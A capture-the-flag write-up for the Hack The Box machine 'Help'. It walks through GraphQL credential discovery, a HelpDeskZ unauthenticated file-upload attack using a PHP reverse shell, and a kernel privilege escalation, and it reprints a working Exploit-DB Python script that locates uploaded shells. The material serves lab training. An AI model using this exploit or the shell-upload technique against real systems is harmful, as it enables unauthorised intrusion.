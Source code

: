 ```yaml
---
title: 'HTB: Help'
date: '2019-06-08'
excerpt: 'Help is an Easy Linux box which has a GraphQL endpoint which can be enumerated get a set of credentials for a HelpDesk software. The software is vulnerable to blind SQL injection which can be exploited to get a password for SSH Login. Alternatively an unauthenticated arbitrary file upload can be exploited to get RCE. Then the kernel is found to be vulnerable and can be exploited to get a root shell.'
readingTime: 3
tags: ['HTB', 'Writeup', 'HTB', 'Writeup', 'Easy', 'Medium', 'Linux']
author: 'pir4cy'
coverImage: '/images/htb/covers/help-cover.png'
---
```


# Help

## Info
  * IP : 10.10.10.121
  * OS : Linux
  * DIfficulty: Easy/Medium

## System Enumeration

### NMAP
![nmap](/images/htb/machines/Help/nmap.png "NMAP")

### Port 80
![port 80](/images/htb/machines/Help/port80.png "Port 80")

### Port 3000
![port 3000](/images/htb/machines/Help/port3k.png "Port 3000")

nmap shows port 3000 hosts the node.js express framework, loading up port 3000 we see that we need to enter a query.  
A quick google search for "query + nodejs + express" gives us a new keyword "graphql".  

So, we check for graphql by simply typing `/graphql` 

### Finding Credentials

To read and interact with GraphQL properly, I used the JSON decoder of the BurpSuite.  
![Burp Suite](/images/htb/machines/Help/credsfound.png "Burp Suite")

The password hash found can be easily cracked using online utilities such as crackstation.  
![Cracked Password](/images/htb/machines/Help/crackedpw.png "Cracked Password")

### Support Page

HelpDeskZ is being used for the support API of the website, and since we've already found the credentials, we can easily login.  
![Support Page](/images/htb/machines/Help/supportPage.png "Support Page")

![Logged In](/images/htb/machines/Help/loggedInHelpDeskz.png "Logged In")

#### Exploitation

Looking for a possible exploit, I found `https://www.exploit-db.com/exploits/40300` to be of use.  

```
import hashlib
import time
import sys
import requests

print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

if len(sys.argv) < 3:
    print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
    sys.exit(1)

helpdeskzBaseUrl = sys.argv[1]
fileName = sys.argv[2]

currentTime = int(time.time())

for x in range(0, 300):
    plaintext = fileName + str(currentTime - x)
    md5hash = hashlib.md5(plaintext).hexdigest()

    url = helpdeskzBaseUrl+md5hash+'.php'
    response = requests.head(url)
    if response.status_code == 200:
        print "found!"
        print url
        sys.exit(0)

print "Sorry, I did not find anything"
```

We can upload a reverse shell through the HelpDeskZ portal along with a ticket and use the given python code to find our uploaded shell.  

*Although it can be done without logging in, the login helped me with the timezone matching problem, without which I'd have to edit the exploit.py according to my timezone.*

Since the tickets formed, keep changing with respect to the time, we match our timezone with the timezone of the HelpDeskz portal.  

![TimeServer](/images/htb/machines/Help/timezoneServer.png "Time Zone Server Change")

![TimeClient](/images/htb/machines/Help/timezoneClient.png "TIme Zone Client Change")

Now, we should upload our shell.  

Using a simple `php-reverse-shell` provided by `pentestmonkey`, I simply changed the required values and uploaded it as a ticket file.  

![uploaded shell](/images/htb/machines/Help/uploadingShell.png "Uploading the php shell")

As I submitted my ticket, I received the error `File Not Allowed`, but looking at the source code of HelpDeskz, this error is bogus and the file is still uploaded.  

So, we run the exploit  
![Python Exploit](/images/htb/machines/Help/pyexploit.png "PyExploit")  

File found! So we create a listener and open up our shell and voila! We are in
![Listening for Shell](/images/htb/machines/Help/listeningForShell.png "Listening for Shell")  

## User Found

![User Found](/images/htb/machines/Help/userfound.png "User")

## Privilege Escalation

Enumerating the system, we get the following information  
![PrivEsc 1](/images/htb/machines/Help/privesc1.png "Privilege Enumeration")

Searching for a possible exploit on searchsploit  
![SearchSploit](/images/htb/machines/Help/searchsploit.png "Searchsploit")

Looking up the kernel exploit and running it on the machine, we get root!  
![Root Gained](/images/htb/machines/Help/rootgained.png "Rooted!")

Thank you for reading!

